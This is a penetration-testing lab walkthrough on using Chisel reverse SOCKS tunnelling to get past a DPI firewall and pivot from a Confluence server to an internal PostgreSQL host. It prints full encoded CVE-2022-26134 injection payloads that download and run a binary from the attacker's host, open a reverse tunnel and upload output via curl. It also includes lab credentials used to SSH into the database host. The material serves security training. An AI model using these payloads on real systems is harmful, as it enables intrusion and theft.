


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Chisel

[Chisel](https://github.com/jpillora/chisel) is an HTTP tunneling tool that encapsulates data into an HTTP stream.

Chisel uses a client/server model. A _Chisel server_ must be set up, which can accept a connection from the _Chisel client_. Various port forwarding options are available depending on the server and client configurations. One option that is particularly useful for us is _reverse port forwarding_, which is similar to SSH remote port forwarding.

Chisel can run on Linux, Windows, and MacOS. It also comes for various architectures on each platform. All of the binaries can be found on the official [releases page](https://github.com/jpillora/chisel/releases).

## Reverse Port Forwarding

### Example Background

The example will leverage a network similar to what was seen in the SSH tunneling [examples](../../ssh-tunneling/ssh-dynamic-remote-port-forwarding.md#example-scenario). There is a perimeter web server running Confluence  (`CONFLUENCE01`) which sits across the DMZ from a machine running a PostgreSQL database (`PGDATABASE01`).

In this example, CONFLUENCE01 sits behind a DPI solution that is terminating all outbound traffic except HTTP. In addition, all inbound ports on `CONFLUENCE01` are blocked except `TCP/8090`. The network looks like this:

<figure><figcaption><p>DPI Firewall preventing normal attack vectors</p></figcaption></figure>

This setup would prevent any of the earlier techniques from working. For starters, the reverse shell that was spawned via exploitation of [CVE-2022-26134](../../simple-port-forwarding-scenario.md#cve-2022-26134) would be terminated by the DPI solution as its traffic is not HTTP. Beyond that, the SSH tunnels could not be set up as even the outbound connections would be terminated for being non-HTTP.

With this in mind, a plan can be formed. If `CONFLUENCE01` can be set up as a Chisel client, it could reach out to a Chisel server running on the attacker's Kali machine. Once this tunnel was created traffic could be sent through it into the network allowing exploitation of internal resources. With that in mind the steps to exploitation are:

1. Get Chisel client software onto `CONFLUENCE01`
2. Use Chisel client on `CONFLUENCE01` to reach out to attacker's machine creating a tunnel
3. Exploit internal resources

#### Monitoring the Input

If desired, the attacker can use [`tcpdump`](https://www.tcpdump.org/manpages/tcpdump.1.html) to monitor the incoming traffic to the listener:

```bash
sudo tcpdump -nvvvXi tun0 tcp port 8080
```

* `-n` prevents name resolution
* `-vvv` sets verbosity to high
* `-X` prints each packet in hex as well as ASCII
* `-i <interface>` dumps traffic only from specified interface (`tun0` here)
* `tcp port 8080` specifies listening port

### Getting Chisel Client on Target

While the reverse shell used in [previous examples](../../simple-port-forwarding-scenario.md#reverse-shell) is out because of the DPI solution. Recall that CVE-2022-26134 was in fact a pre-authentication command injection vulnerability. This means that if instead of injecting a command to spawn a shell, instead a command were injected to download Chisel over HTTP, it would be allowed. This can be done with `wget`:


```bash
wget http://192.168.45.159:8888/tmp/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```


* Attacker is hosting a web server at `192.168.45.159:8888` with the chisel binary at the `/tmp/chisel` location

Recall from [this example](../../simple-port-forwarding-scenario.md#payload-encoding) that the command must be partially percent encoded.


```bash
curl http://192.168.244.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.159:8888/tmp/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```


If this is run against CONFLUENCE01 it is possible to see the machine downloading the chisel binary via the access logs. The attacker can watch live with the command:

```bash
watch -n 1 "tail -n 5 /var/log/apache2/access.log"
```

The attacker would see the connection and successful download as:


```
...
192.168.45.159 - - [02/Feb/2024:17:17:54 -0700] "GET /Linux/tools.html HTTP/1.1" 200 1118 "http://192.168.45.159:8888/" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
192.168.45.159 - - [02/Feb/2024:17:19:07 -0700] "GET /Linux/tools.html HTTP/1.1" 200 1121 "http://192.168.45.159:8888/" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
192.168.45.159 - - [02/Feb/2024:17:21:49 -0700] "GET /Linux/tools.html HTTP/1.1" 200 1131 "http://192.168.45.159:8888/" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
192.168.45.159 - - [02/Feb/2024:17:21:49 -0700] "GET /favicon.ico HTTP/1.1" 404 494 "http://192.168.45.159:8888/Linux/tools.html" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
192.168.244.63 - - [02/Feb/2024:17:34:48 -0700] "GET /tmp/chisel HTTP/1.1" 200 8711371 "-" "Wget/1.20.3 (linux-gnu)"
```


### Setting Up Chisel Server

The attacker now needs to set up the Chisel server on their machine. This can be done with the command:

```bash
chisel server --port 8080 --reverse
```

* `server` tells Chisel it is running a server
* `--port 8080` specifies the bind port of the listener
* `--reverse` allows the reverse port forward

Running this produces output validating the server has started up and is listening:

```bash
kali@kali:~$ chisel server --port 8080 --reverse
2024/02/02 17:44:43 server: Reverse tunnelling enabled
2024/02/02 17:44:43 server: Fingerprint BDw+FZeX/omsjXliT0Kk5Ahh32Lh1HbczLOnkaHLbhY=
2024/02/02 17:44:43 server: Listening on http://0.0.0.0:8080
```

### Connecting Client to Server

The basic command structure for connecting the client to the server is:

```bash
chisel client 192.168.45.159:8080 R:socks > /dev/null 2>&1 &
```

* `client` specifies Chisel should start in client mode
* `R:socks` specifies that a _reverse tunnel_ (`R`) is being created with the SOCKS (`socks`) protocol
  * The reverse SOCKS tunnel is **bound to port `1080` by default**
* `> dev/null 2>&1 &` are shell redirections to force the process to run in the background
  * `> /dev/null` sends command output to `/dev/null`
  * `2>&1` binds standard error and standard output together
  * trailing `&` runs the command in the background

Recall that in this specific instance Chisel is residing at `/tmp/chisel` and will have to be addressed directly. The URL encoded payload is:


```
curl http://192.168.244.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.159:8080%20R:socks%20%3E%20/dev/null%202%3E%261%20%26%27%29.start%28%29%22%29%7D/
```


This particular example includes some troubleshooting sections of a version issue. While they are illustrative, if just trying to set up a connection with Chisel and it is working it will look like this:

```bash
kali@kali:~$ chisel server --port 8080 --reverse
2024/02/03 15:49:55 server: Reverse tunnelling enabled
...
2024/02/03 15:49:55 server: Listening on http://0.0.0.0:8080
2024/02/03 15:51:42 server: session#1: Client version (1.8.1) differs from server version (1.9.1-0kali1)
2024/02/03 15:51:42 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

If the above output is seen skip ahead to [here](chisel.md#using-the-tunnel). Otherwise continue through the example.

### Troubleshooting the Connection

Unfortunately the output above is not coming up in the terminal. It still just looks like this:

```
kali@kali:~$ chisel server --port 8080 --reverse
2024/02/02 17:44:43 server: Reverse tunnelling enabled
2024/02/02 17:44:43 server: Fingerprint BDw+FZeX/omsjXliT0Kk5Ahh32Lh1HbczLOnkaHLbhY=
2024/02/02 17:44:43 server: Listening on http://0.0.0.0:8080
```

What could cause the connection failing?

#### Reading Command Output

Unfortunately it is tough to say because the attacker does not have access to the output of the command as it is being run on a machine they do not control. The first step is to engineer some way to see that output. The command would be similar to the one [above](chisel.md#connecting-client-to-server), except instead of backgrounding the connection, output should be saved to a file `/tmp/output` in this case:

```bash
/tmp/chisel client 192.168.45.159:8080 R:socks &> /tmp/output
```

* `&>` [redirects](https://www.gnu.org/software/bash/manual/html\_node/Redirections.html#Redirecting-Standard-Output-and-Standard-Error) both the standard output and error to the file (functionally equivalent to `2>&1`)

This file will then be uploaded to the attackers web server ([this site](https://github.com/alex-christine/MalSite) hosted via Apache) via `curl`:

```bash
curl -F uploadedfile=@/tmp/output http://192.168.45.159:8888/cgi-bin/m-upload.php
```

&#x20;This is combined into a one-liner:


```bash
/tmp/chisel client 192.168.45.159:8080 R:socks &> /tmp/output; curl -F uploadedfile=@/tmp/output http://192.168.45.159:8888/cgi-bin/m-upload.php
```


Then it is encoded and sent via the curl command:


```bash
curl http://192.168.244.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20-F%20uploadedfile=@/tmp/output%20http://192.168.45.159:8888/cgi-bin/m-upload.php%27%29.start%28%29%22%29%7D/
```


This works and the output file is uploaded to the web server. It is copied below:


```
/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)
/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel)
```


The error message indicates the Chisel is trying to use versions 2.32 and 2.34 of [glibc](https://www.gnu.org/software/libc/) and that `CONFLUENCE01` does not have these libraries.

#### Researching the Issue

This points towards a version incompatibility. When a version of a tool or component is more recent than the operating system it's trying to run on, there's a risk that the operating system will not contain the required technologies that the newer tool is expecting to be able to use.

Researching the Chisel client used yields some more information:

```bash
kali@kali:~$ chisel -h                          

  Usage: chisel [command] [--help]

  Version: 1.9.1-0kali1 (go1.21.3)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

The version of the client is 1.9.1 but something else interesting is that it was compiled with GoLang 1.21.3.&#x20;

Some light Googling reveals that [similar](https://github.com/golang/go/issues/58550) [messages](https://github.com/GoogleContainerTools/distroless/issues/1342) appear when binaries compiled with Go versions 1.20 and later are run on operating systems that don't have a compatible version of glibc.

#### Correcting the Issue

Perhaps it would be possible to use an older version of Chisel that was compiled with a version of GoLang that does not cause this issue. It seems version 1.8.1 was compiled with Go v1.19 which is below the problem-causing version of 1.20. Fortunately it is possible to get an official copy via the URL shown in the `wget` command below:


```bash
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
```


To fix the issue:

1. Download the v1.8.1 binary
2. Host it at /tmp/chisel on the attacker's web server
3. Use the curl command from [this section](chisel.md#getting-chisel-client-on-target) to transfer the older version of Chisel to the target
4. Start the Chisel server listener on the attacker's machine as shown [here](chisel.md#setting-up-chisel-server)
5. Use the older version of the Chisel client as shown in [this section](chisel.md#connecting-client-to-server) to connect back to the listening server

Assuming the steps are followed correctly, the attacker's Chisel server command prompt should appear as shown below:

```bash
kali@kali:~$ chisel server --port 8080 --reverse
2024/02/03 15:49:55 server: Reverse tunnelling enabled
...
2024/02/03 15:49:55 server: Listening on http://0.0.0.0:8080
2024/02/03 15:51:42 server: session#1: Client version (1.8.1) differs from server version (1.9.1-0kali1)
2024/02/03 15:51:42 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

At this point the tunnel has been successfully created.

### Using the Tunnel

Assuming a successful connection has been achieved, the attacker will see the listener on port 1080 by default:

```bash
kali@kali:~$ ss -ntpl
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
LISTEN    0         4096             127.0.0.1:1080             0.0.0.0:*        users:(("chisel",pid=4663,fd=8))
LISTEN    0         4096                     *:8080                   *:*        users:(("chisel",pid=4663,fd=6))
```

For this example, the attacker will be attempting to create an SSH session with `PGDATABASE01` using the credentials `database_admin:sqlpass123` which were compromised in [this example](../../simple-port-forwarding-scenario.md#cracking-the-hash).

To do this, traffic will be sent backward through the connection created by Chisel as seen in this diagram:

<figure><figcaption><p>Traffic will be sent backwards through the tunnel</p></figcaption></figure>

#### ProxyCommand

SSH doesn't offer a generic SOCKS proxy command-line option. Instead, it offers the [`ProxyCommand`](https://man.openbsd.org/ssh\_config#ProxyCommand) configuration option. One can either write this into a configuration file, or pass it as part of the command line with `-o`.

ProxyCommand accepts a shell command that is used to open a proxy-enabled channel. The documentation suggests using the OpenBSD version of Netcat, which exposes the `-X` flag and can connect to a SOCKS or HTTP proxy. However, the version of Netcat that ships with Kali doesn't support proxying.

Instead, this example will use [Ncat](https://nmap.org/ncat/) which is a Netcat alternative written by the maintainers of Nmap. As discussed [here](../../../../networking-tools/ncat/socks-proxy.md), Ncat can be used to initiate a SOCKSv5 proxy.

The Ncat command to initiate the proxy in this case would be:

```bash
ncat --proxy 127.0.0.1:1080 --proxy-type socks5 <host> <port>
```

The above will be passed as a command to the SSH ProxyCommand option with one modification. Where one would normally place an IP for \<host> and number for \<port> the command will use %h and %p respectively. The values will be subbed in by SSH's ProxyCommand prior to connection. The full command will look like:


```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.244.215
```


* `PGADATABASE01` is running at `10.4.244.215` in this example

This sends traffic back through the Chisel tunnel created and gives the attacker access to `PGADATABASE01`:

```
$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.244.215
The authenticity of host '10.4.244.215 (<no hostip for proxy command>)' can't be established.
...
database_admin@10.4.244.215's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 03 Feb 2024 11:45:50 PM UTC

  System load:  0.0               Processes:               234
  Usage of /:   80.0% of 6.79GB   Users logged in:         0
  Memory usage: 15%               IPv4 address for ens192: 10.4.244.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.244.254


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 16 21:49:42 2023 from 10.4.50.63
database_admin@pgdatabase01:~$
```
